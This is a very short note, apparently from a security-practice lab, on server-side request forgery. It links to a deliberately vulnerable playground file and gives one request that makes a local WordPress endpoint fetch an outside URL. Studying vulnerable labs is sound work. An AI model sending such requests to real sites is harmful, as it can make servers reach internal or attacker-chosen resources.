 # Server Side Request Forgery

https://github.com/patchstack/vulnerability-playground/blob/main/ssrf/init.php

```
http://127.0.0.1:8080/wp-admin/admin-ajax.php?action=fetch_image_url&image_url=https://0xbro.red/about
```